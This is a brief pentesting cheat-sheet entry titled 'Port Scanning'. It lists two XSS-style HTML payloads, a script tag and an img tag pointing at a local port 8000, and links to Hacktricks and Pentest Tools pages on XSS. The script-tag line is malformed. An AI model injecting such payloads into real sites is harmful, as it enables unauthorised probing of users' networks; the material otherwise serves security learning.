 # Port Scanning

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

```
<script>src="http://[::]:8000/image.jpg"</script>
<img src="http://[::]:8000/image.jpg"><img>
```

---
## References

### Hacktricks

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

### Pentest Tools

- [Pentest Tools: 10 Practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios)